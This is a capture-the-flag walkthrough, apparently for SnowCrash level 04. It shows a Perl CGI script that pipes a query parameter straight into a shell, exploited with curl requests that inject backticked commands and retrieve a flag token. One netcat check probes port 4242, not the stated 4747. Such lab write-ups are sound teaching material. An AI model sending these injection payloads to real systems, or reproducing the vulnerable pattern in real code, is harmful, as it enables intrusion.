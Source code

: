 # Level 04

- Once logged in, and check the file in home dir., the `level04.pl` file is located

```
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          localhost 10.110.0.2
level04@localhost's password:

level04@SnowCrash:~$
level04@SnowCrash:~$ ls
level04.pl
```

### What is `.pl` file?
- a `Perl` script file

```
level04@SnowCrash:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Something is on port `4747`, so let's check out

```
level04@SnowCrash:~$ nc -zv localhost 4242
Connection to localhost 4242 port [tcp/*] succeeded!
```
- nc: netcat
	- -z for just scan for listening daemons, without sending any data
	- -v for give more verbose output

Try passing command to check

```
level04@SnowCrash:~$ curl localhost:4747/?x="\`/usr/bin/whoami\`"
flag04
```

and run getflag
```
level04@SnowCrash:~$ curl localhost:4747/?x="\`/bin/getflag\`"
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```


